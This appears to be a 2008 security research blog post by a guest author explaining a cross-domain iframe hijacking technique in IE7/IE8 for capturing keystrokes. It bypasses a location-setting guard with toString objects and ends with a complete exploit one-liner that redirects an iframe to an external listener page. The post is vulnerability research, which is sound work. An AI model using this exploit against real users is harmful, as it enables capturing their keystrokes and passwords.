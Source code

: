 ```yaml
---
title: Ghost Busters
author: petko-d-petkov
guest: eduardo-vela
date: Thu, 15 May 2008 16:26:48 GMT
template: this/views/post.jade
---
```


> A special guest blogger for this month is Eduardo Vela, also known as sirdarckcat, a security researcher from Mexico. Eduardo has been on the field for a couple of years, mainly focusing on web-app based vulnerabilities, privilege escalation, and IDS/filter evasion. Today, he is a student of computer sciences, does some research on his free time, and works for an important website as a security engineer. These are his words:

There a few conferences that are privately held (invite-only) and their level is commonly very high. One of them is Microsoft's BlueHat conference. BlueHat is an "internal Microsoft event", but they invite a lot of security researchers from around the world. A couple of friends presented in there, and well, apparently it was really fun. Anyway, there was a specific talk that caught our attention, more specifically Manuel Caballero's "A resident in my domain". The description of his talk was really intriguing:

> Do you believe in ghosts? Imagine an invisible script that silently follows you while you surf, even after changing the URL 1,000 times and you are feeling completely safe. Now imagine that the ghost is able to see everything you do, including what you are surfing and what you are typing (passwords included), and even guess your next move.
> No downloading required, no user confirmation, no ActiveX. In other words: no strings attached. We will examine the power of a resident script and the power of a global cross-domain. Also, we will go through the steps of how to find cross-domains and resident scripts.

Apparently, Caballero found a way of capturing keystrokes and window's location. This means that he "at least" has access to modify `document.onkeydown`, and read `window.location`, but if he could modify `document.onkeydown`, that would mean he has access to execute arbitrary code on other's domains context, so that's not it.. because if that was the case, he wouldn't be able to just capture keystrokes, but to UXSS (Universal XSS) the browser.

Anyway, the two things he claims to be able to manipulate can also be manipulated from an off-domain `iframe`. So if there's some way of changing the location of an `iframe`, to any `iframe` we want, then we would be able to capture keystrokes on our own window. So, we now need a way of changing the location of an `iframe`, but first we need to get a reference to the window where the `iframe`s stay, without loosing the script run-time execution. So there are 2 main ways of getting a reference to a window:

```javascript
x=open().window
x=window.opener
```

Both require the user to open a new window and they work exactly the same way. So if you manage to make the user open a new window, then it doesn't matter where the user is navigating to, (if both windows remains open, anyway if the users close them, you can reopen&blur) you have them. So how do we do that? We need to get a reference to the `iframe`s. The ways of doing so are:

```javascript
document.getElementsByTagName("iframe") {doesnt work on cross-domain calls}
window.frames[] {works on cross-domain calls}
```

Now we just need to modify the location. This is trivial, just changing `window.opener.frames[0].location="new location"` shold work. On a recent versions of IE7 and IE8 this method doesn't work. When you try this, the browser will open a new window and by doing so, not modifying the location of the `iframe`.

After doing some tests, the location DOES gets changed when the setted location is not a string. We have hte following options:

```javascript
window.opener.frames[0].location=123;
window.opener.frames[0].location=window;
window.opener.frames[0].location=location;
```

Works fine! But why? Well, apparently IE7&8 have a protection against setting locations by off-domain scripts, and this protection is.. "if the setted location is a string, throw an Error". Not good! We have a lot of ways of making a `String` to look like an `Object`. For example.

```javascript
new String("some-string");
{toString:function(){return "some-string";}}
new function(){this.toString=function(){return "some-string";}}
```

This way, we bypass IE's protection and set our desired location without any problems. And the final exploit goes like this:

```javascript
javascript:x=open('http://hackademix.net/');setInterval(function(){try{x.frames[0].location={toString:function(){return 'http://www.sirdarckcat.net/caballero-listener.html';}}}catch(e){}},5000);void(1);
```

What caballero-listener does is just focusing itself, so it can catches `onkeydown` events.. there are a lot of ways of making the same thing in more stealth mode.
